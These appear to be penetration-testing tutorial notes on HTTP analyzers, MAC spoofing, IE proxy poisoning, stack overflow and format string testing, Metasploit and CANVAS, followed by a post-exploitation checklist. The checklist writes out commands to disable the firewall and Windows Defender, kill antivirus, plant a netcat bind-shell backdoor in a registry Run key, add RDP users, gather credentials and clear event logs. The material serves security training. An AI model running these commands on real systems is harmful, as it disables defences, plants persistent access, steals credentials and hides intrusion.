Some basic steps of HTTP analyzer:

- First, launch the new IE window and click on the HTTP analyzer icon in the IE toolbar to open it.
- Enter the URL in the address bar of IE to navigate to it. And enter “test post” in the test edit and click “submit post.”
- Click on the “start logging” to capture the HTTP traffic.
- The HTTP analyzer’s session grid displays the entries. In case if HTTP analyzer band is closed, then it will stop logging the requests.
- Click on any entry in the Session Grid; it will display a detailed information of individual HTTP session in the Session view.


#### Spoof the MAC Address
Spoof the MAC address and get access to VLANs.

##### SMAC

Source: http://www.klcconsulting.net
SpoofMAC (SMAC) is a powerful, easy-to-use, and intuitive MAC address—changing (spoofing) tool for Windows systems. SMAC is a MAC address changer that changes MAC addresses for any Virtual PC, VMs, or Windows systems. It does not rely on the hardware address on the NIC but changes only software-based MAC addresses. The new MAC addresses sustain reboots. It features MAC address lookup. It displays either all or only active network adapters and randomly generates new MAC addresses or those based on a selected manufacturer. It also restores the original MAC address by removing the spoofed MAC address. SMAC discovers information about NIC that includes device ID, active status, NIC description, NIC manufacturer, spoofed status (Yes/No), IP address, active MAC addresses, spoofed MAC address, NIC hardware ID, NIC configuration ID, and so on.


#### Poison the Victim’s IE Proxy Server
Poison the victim’s IE proxy server settings and redirect them to rogue servers. You can add a bogus proxy server to IE’s Internet settings by using the following steps:

- In IE, go to Tools and then Internet Options.
- On the Connections tab, click the LAN settings button.
- In the resulting dialog box, select the following check box in the Proxy server section:
  Use a proxy server for your LAN (These settings will not apply to dial-up or VPN connections).
- For example, enter 127.1.1.1 in the Address text box.
- Enter 8080 in the Port text box and click OK.


#### Test for Stack Overflow Vulnerability using OllyDbg Debugger
When a program or process tries to put more data to a fixed block of buffer than the buffer is allocated to hold, then the buffer overflow occurs. There are two types of buffer flows:

* Stack-based

* Heap-based

For performing stack-based buffer overflow attacks, you can attempt to overwrite the stack   registers and can also modify the variables present in stack intentionally. As a penetration   tester, you can test the target machine for any stack-based buffer overflow vulnerabilities and   exploit if found one. You can use debugging tools to identify and analyze buffer overflows.

Steps that are to be followed to test for stack overflow vulnerability using OllyDbg Debugger:

- Attach a debugger to the target application for process.

- Generate malformed input for the application.

- Subject the application to malformed input.

- Insert response in a debugger.

For example, given below is a sample executable application “sample.exe,” that is vulnerable to stack overflow attack. To test for buffer overflow attack, you can perform the following steps:

**Step 1**: Testing “sample.exe” for stack overflows.

Analyze the source code of the application and try to identify if there is any loophole or vulnerability present in the code

Following is the source code for sample.exe file:

```
#include<stdio.h>
int main(int argc, char *argv[])
{
char buff[20]; printf("copying into buffer") ;
strcpy (buff, argv[1]); return 0;
}
```

In the above source code, you can observe that this code requires input arguments while executing in real time and this code consists of an invalid strepy command which is vulnerable to stack overflow attacks.

**Step 2**: Launch “sample.exe” in a debugger.
To ensure your observation from step 1, open the sample.exe file using OllyDbg debugger.

**Step 3**: Because this application requires input argument from the user, attempt to supply a large sequence of characters such as “A” in the Argument field as shown in below figure.


**Step 4**: Click Open in the debugger to the executable with the supplied arguments (AAAAAAAA...) and continue execution. The result is shown in the below figure.

**Step 5**: OllyDbg debugger opens up and after the execution of the executable file, you can observe that the execution will be halted and in the Registers box, EIP register field contains the value “41414141,” which represents the hexadecimal “AAAA.” This means that the stack instruction pointer is also filled up with the supplied A’s and now the instruction pointer is pointing to a location 41414141 which does not exist, causing the application to crash.


#### Test for Format String Vulnerability using IDA Pro

Format string vulnerability is simply due to the coding error, where the programmer makes a mistake of improper usage of commands like printf and sprint that allows the user to provide input arguments directly to buffers. This improper usage can enable user to input any number of input arguments and can lead to buffer overflow attacks. Format string vulnerabilities are most often exploited within web servers, application servers, web applications utilizing C/C++ based code, and CGI scripts written in C. A sample format string vulnerable code is mentioned in the below figure.


As a penetration tester, try to identify the presence of a format string vulnerability by checking instances of code (assembly fragments). When the disassembly is examined using IDA Pro, the address of a format type specifier being pushed on the stack is clearly visible before a call to print is made. Try to manipulate input parameters to include %x or %n type specifies. 

For example, a legitimate request like:
http://hostname/cgi-bin/query.cgi?name=john&code=45765

is changed into:

http://hostname/cgi-bin/query.cgi?name=john%x.%x.%x&code=45765%Xx.%Xx


#### Automated Internal Network Penetration Testing Tool: Metasploit
Source: https://www.metasploit.com
The Metasploit Framework is a penetration testing toolkit, exploit development platform, and research tool that includes hundreds of working remote exploits for a variety of platforms. It is an exploit development tool that is used for writing, testing, and using exploit code in an open-source platform. It provides a concrete platform for penetration testing, shell code development, and vulnerability research. Metasploit is written in Ruby and runs on Windows, Linux, BSD, and Mac OS X. It includes the following features:

- Supports various networking options and protocols to develop protocol-dependent code.

- Includes tools and libraries to support features such as debugging, encoding, logging, timeouts, and SSL.

- Presence of supplementary exploits to help in testing of exploitation techniques and sample exploits produced.

There are three work environments for the installed MSF. They are the msfconsole, the msfcli interface, and the msfWeb interface. The primary and most resourceful work area is the msfconsole, which is a command-line interface. It helps you to verify vulnerabilities and manage security assessments.


#### Automated Internal Network Penetration Testing Tool: Immunity CANVAS

Source: http://www.immunitysec.com
CANVAS is an automated exploitation system and a comprehensive, reliable exploit development framework for security professionals and penetration testers. Canvas, developed by the Immunity software team, is a security tool written in Python. Canvas is an inclusive exploitation framework that casts vulnerability information into practical exploits. The main focus of this tool is on creative debugging, that is, working with unexpected behaviors caused by software bugs and making them reliable.

Support Platforms and Installations:

- Linux
- MacOsSx it requires PyGTK
- Windows it requires Python and PyGTK
- Other Python environment such as mobile phones and commercial Unixes with command line version are only supported, and it may be available for GUI


## Post Exploitation

After the exploitation, as a penetration tester, there are certain mandatory activities that you need to perform like resetting the original configurations, deleting installed backdoors, and checking for missing patches. As a penetration tester, you are also responsible to provide recommendations to the client based on the penetration test results.

### You got a shell! Now what?

1. Crack passwords
2. Escalate privileges if required
3. Plant backdoor — if allowed by scope
4. Conduct local assessment

### Disable the Firewall
- The local firewall can cause challenges, so best to disable it

  ```
  netsh firewall set opmode disable
  ```

  

### Disable Windows Defender
```
net stop “Windows Defender Antivirus Network Inspection Service”
```

```
net stop “Windows Defender Antivirus Service”
```

````

net stop “Windows Defender Security Center Service”
````

- Depending on the operating system and your level of access, the commands might not all work

### Kill Antivirus

- killav script


#### Local Assessment
- **Ipconfig/ifconfig**
  (learn the internal addressing)
  
- **Ping**
  (limit to remain stealthy)
  
- **Nslookup**
  (look at the dns data)

- **Nbtstat**
  (locating machines of interest) (domain controllers)

- **netstat —ano (connections)**

  - Linux

    - **netstat -vauptn**

    - **lsof**

- **arp -a**
  (machines that are reachable)

- **Windows net commands**

  (locating shares and disabling protections)

- **ftp and tftp**

  (bring in your additional tools)

- **telnet**

  (banner grabbing in the local intranet)
  
- **Check for utilities**

  (especially in Linux)

- **Route Print**

  This will display the routing table of our computer;
  the **netstat -r** command can also be used for this
  
- **tasklist/svc**

  Running services
  
- **Netsh**

  ```
  netsh firewall set opmode disable
  ```

#### Meterpreter Post Exploitation
**Powerful scripts**

- **enumdesktops**

  Prints information about all the running desktops

- **migrate**
  Can migrate to a more stable and higher privilege process
  
- **getsystem**
  Will attempt to escalate privileges by all methods available
  
- **bypassuac**
  Will attempt to bypass UAC — fails on newer Windows machines
  
- **incognito**
  Valid impersonation token of a specific user, say, administrator, to impersonate that user without any authentication
  
- **list_tokens -u**
  List the available tokens for impersonation

#### Install a Backdoor
If allowed in the scope, install netcat

1. First kill the antivirus

   ```
   killav
   ```

2. ```
      upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
      ```

      

      

#### Setup the Backdoor at Boot cP
```
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d 'C:\windows\system32\nc.exe -Ldp 4444 -e cmd.exe' -v netcat
```


#### Windows Target
**Enable remote desktop**

```
run getgui -e
```

**Add users for rdp**

```
run getgui -u kevin -p pass
```


#### Testing our Access

```
rdesktop -u username -p password [IP Address]
```


#### Grab the Data

```
run winenum
```


#### Grab the Credentials

```
run post/windows/gather/credentials/credential_collector
```


#### View the Recent Files

```
run post/windows/gather/dumplinks
```


### Installed Applications

```
run post/windows/gather/enum_applications
```


#### Asked for Exploit Suggestions

```
run post/multi/recon/local_exploit_suggester
```


#### Usb hostory

- Display the usb information of the compromised box

```
run post/windows/gather/usb_history
```


#### Event Manager Information

- Display the information about the event viewers

```
run event_manager -i
```


#### Event Manager Log Clearing

```
run event_manager -c
```


